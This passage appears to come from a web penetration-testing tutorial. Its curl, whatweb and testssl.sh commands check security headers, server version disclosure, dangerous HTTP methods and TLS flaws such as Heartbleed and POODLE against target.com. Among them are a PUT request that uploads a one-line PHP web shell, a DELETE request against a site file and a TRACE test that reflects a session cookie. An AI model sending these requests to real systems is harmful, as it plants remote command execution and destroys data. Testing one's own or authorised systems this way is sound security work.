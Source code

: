 **Missing header implications:**

```bash
# Missing HSTS → SSL stripping attacks possible
# Missing X-Frame-Options → Clickjacking possible
# Missing CSP → XSS attacks easier
# Missing X-Content-Type-Options → MIME confusion attacks
```

### Server Information Disclosure

```bash
# Server version disclosure
curl -I http://target.com | grep "Server:"
# Apache/2.4.29 (Ubuntu)  ← Discloses OS and version

# PHP version disclosure
curl -I http://target.com | grep "X-Powered-By:"
# X-Powered-By: PHP/7.2.24  ← Discloses PHP version

# Technology stack leakage
whatweb http://target.com

# Error message information disclosure
curl http://target.com/nonexistent.php
# Fatal error: require_once(): Failed opening required '/var/www/html/config.php'
# ← Discloses absolute path
```

### HTTP Method Testing

```bash
# Test for dangerous HTTP methods
curl -X OPTIONS http://target.com -v

# Check Allow header:
# Allow: GET, POST, PUT, DELETE, OPTIONS, TRACE  ← TRACE is dangerous

# Test TRACE (XST - Cross-Site Tracing)
curl -X TRACE http://target.com -H "Cookie: session=secret"
# If TRACE is enabled, response includes cookie

# Test PUT (arbitrary file upload)
curl -X PUT http://target.com/shell.php -d '<?php system($_GET["cmd"]); ?>'

# Test DELETE
curl -X DELETE http://target.com/important-file.php
```

### SSL/TLS Vulnerabilities

```bash
# testssl.sh comprehensive scan
testssl.sh --full https://target.com

# Check for specific vulnerabilities:
# - Heartbleed (CVE-2014-0160)
testssl.sh --heartbleed https://target.com

# - POODLE (CVE-2014-3566)
testssl.sh --poodle https://target.com

# - BEAST (CVE-2011-3389)
testssl.sh --beast https://target.com

# - CRIME (CVE-2012-4929)
```